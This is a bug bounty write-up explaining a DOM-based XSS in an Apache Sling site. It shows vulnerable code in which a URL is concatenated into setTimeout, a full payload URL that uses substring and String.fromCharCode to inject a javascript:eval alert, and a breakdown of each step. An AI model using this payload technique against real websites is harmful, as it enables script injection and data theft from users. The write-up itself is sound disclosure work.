 
# Hash XSS

During my early start in bug bounty, I ended up researching on an Apache Sling application serving web content for customers, it was possible for them to subscribe and find out offers that benefit them.

While reviewing the javascript files, I stumbled upon an interesting injection flaw located in a function called `sendAnalyticsEvent`,

```
function sendAnalyticsEvent(link, site, page, value) {
    try {
        _gaq.push(['_trackEvent', site, page, value]);
        window.setTimeout("window.location.href='" + link + "'", 200);
        return false;
    } catch (err) {}
}
```

`setTimeout` is a function that executes code after expiration ofa time delay, it accepts raw code or a function reference.

As you can see, it looks like the parameter `link` is directly concatenated with actual javascript code that is supposed to be executed by setTimeout. This means that if the attacker can influence the `link` parameter, it should result in XSS.

## The POC

The XSS was triggered by sending the payload in the hash of the URL. The application had a `switchLanguage` functionality that would replace the language path inside the URL, then send `location.href` to the `sendAnalyticsEvent` function. `location.href` includes the url + hash.

```
function switchLanguage() {
  const newLocation = location.href.replaceAll("en", "fr")
  sendAnalyticsEvent(newLocation)
}
```

This resulted in a one click XSS once the user changed the language.

The payload looked like this:

```
https://www.redacted.com/en/index.html#a'.substring(1000).concat(String.fromCharCode(106,97,118,97,115,99,114,105,112,116,58,101,118,97,108,40,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,98,111,100,121,46,105,110,110,101,114,72,84,77,76,41,39,41));//
```

A few important points:
-  Added is a call to substring with a large amount, to get rid of the url start `https://www.redacted.com/en/index.html#a'`, resulting in an empty string as URL.
```
1. "window.location.href='" + "https://www.redacted.com/en/index.html#a'.substring(1000)"
2. "window.location.href='https://www.redacted.com/en/index.html#a'.substring(1000)"
3. "window.location.href=''"
```
- The javascript url payload can then be appended to the empty string, resulting in something like
```
1. window.location.href="".concat(String.fromCharCode(106,97,118,97,115,99,114,105,112,116,58,101,118,97,108,40,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,98,111,100,121,46,105,110,110,101,114,72,84,77,76,41,39,41));//
2. window.location.href="".concat('javascript:eval('alert(document.body.innerHTML)')
3. window.location.href="javascript:eval('alert(document.body.innerHTML)')"
```

The client fixed the injection by removing the hash.

In a follow up post, I will explain how I bypassed this fix by using Apache Sling URL decomposition.







